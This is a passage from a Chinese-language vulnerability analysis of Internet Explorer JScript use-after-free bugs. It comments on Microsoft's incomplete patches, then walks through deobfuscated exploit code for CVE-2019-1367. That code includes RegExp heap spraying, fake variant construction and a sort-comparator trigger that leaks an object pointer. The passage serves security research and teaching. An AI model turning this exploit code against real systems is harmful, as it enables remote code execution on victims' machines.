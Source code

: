 事实上，这个 PoC 确实可以导致 Crash，是 CVE-2020-0674 的兄弟漏洞，但是在 CVE-2020-0674 的补丁出来后，此类 UAF 已经无法触发。

 

读者看完上述 5 个 PoC 后，是不是感觉微软在修补此类漏洞时显得很不专业？微软应该在一开始就将此类漏洞从根本上修复，这样就不会有这么多补丁绕过漏洞。事实上，Ivan Fratric 在上述几个漏洞出现之前就发出过相关警告，并且在漏洞出现后也发表过感慨，喜欢考古的读者可以看一下文末参考链接 “补丁分析” 部分的两个推特链接。

CVE-2019-1367 利用代码分析
--------------------

在本小节中，笔者将分享 CVE-2019-1367 利用代码的一些细节，之所以选择 CVE-2019-1367，一方面是因为国外已经有研究员写过[相关分析](https://blog.confiant.com/internet-explorer-cve-2019-1367-exploitation-part-2-8143242b5780)，但文章过长，且文内代码经过混淆，不易阅读，笔者结合手上资料对相关代码进行了解混淆，以便于阅读；另一方面是因为 4 个漏洞的利用代码大同小异，举一例即可。

 

以下只分析 32 位下的利用代码，为保持一致，代码中出现的注释复用国外分析文章中的注释。随笔者一起来看一下如何只用单个 UAF 漏洞即实现远程代码执行。

 

首先回顾下 32 位下 variant 在内存中的数据结构：

```
// total size 0x10 bytes
struct VAR {
    QWORD type;    // 8 bytes
    void* obj_ptr; // 4 bytes
    VAR next_var;  // 4 bytes
}

```

### 从 UAF 到越界读取

利用代码首先在内存中布局一定数量的 RegExp 对象 (作为参数的 reSrc 大有玄机，后面会再次提及)：

```
var refsLimit = 2 * 100 - 1;
for(var i = 0; i < refsLimit; i++)
    rrefs[i] = new RegExp(reSrc); // <--- spray with pattern text "reSrc"

```

随后借助 UAF 漏洞，用经典的 Jscript UAF 占位手法 (详情可参考笔者对 CVE-2018-8353 的分析文章)，将一个原本表示 RegExp 对象的 variant 的 type 域从 0x81(对象) 修改为 0x03(number)，从而将一个 RegExp 对象指针以整数形式泄露出来：

```
function makeVariant(vt, dword1, dword2){
    var charCodes = new Array();
    charCodes.push(vt, 0x00, 0x00, 0x00, dword1 & 0xFFFF, (dword1 >> 16) & 0xFFFF, dword2 & 0xFFFF, (dword2 >> 16) & 0xFFFF);
    return String.fromCharCode.apply(null , charCodes);
}
 
var reallocPropertyName = "\u0000\u0000";
while(reallocPropertyName.length < 0x17a)
    reallocPropertyName += makeVariant(0x0082);
 
reallocPropertyName += "\u0003";
 
// ... code skipped ...
 
dummyArrs[0].sort(FreeingComparator);
var srcs = new Array();
 
for(var i = 0; i < refsLimit; i++)
    try{
        throw erefs[i];
    }catch(e){
        srcs[i] = e.source;
    }
```